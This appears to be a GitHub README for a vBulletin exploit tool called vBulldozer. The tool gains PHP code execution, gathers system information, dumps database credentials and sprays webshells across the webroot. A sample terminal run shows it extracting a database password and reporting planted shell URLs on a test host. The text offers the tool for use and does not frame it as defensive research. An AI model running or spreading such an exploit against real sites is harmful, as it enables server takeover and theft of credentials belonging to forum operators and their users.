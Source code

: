 # vBulldozer
Very loud vBulletin exploit, WIP.

Currently gives you a way to execute arbritary PHP code, and does some info-gathering. Deliberately loud as heck. 

It uses a really dumb trick (recursively trying to drop a webshell into every directory) to attempt to guarentee some form of webshell will be obtained.

I mostly wrote that as a joke, its called "equifax mode", as it could lead to you spraying like 30 webshells all over the webroot. 

This is the loudest, most unclean, exploit I think I've written in a while. It has absolutely zero stealth features.

```
$ python vBulldozer.py https://vb.test.local/
{+} Checking https://vb.test.local/
{*} Target is vulnerable!
{+} Proceeding...
{+} Gathering some system information...
{>} PHP uname: Linux vb 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
{>} Current UID: 33
{>} Current Dir: /var/www/html
{+} Gathering database credentials...
{>} Database Host: localhost
{>} Database User: vb
{>} Database Pass: password123
{*} Got 3 paths to try...
{*} Using remote CWD: /var/www/html
{+} Checking https://vb.test.local/includes/vb5/template/bbcode/hax.php
{>} Your shell is at: https://vb.test.local/includes/vb5/template/bbcode/hax.php
{+} Checking https://vb.test.local/includes/vb5/template/cache/hax.php
{>} Your shell is at: https://vb.test.local/includes/vb5/template/cache/hax.php
{+} Checking 
{+} Done!
$
```
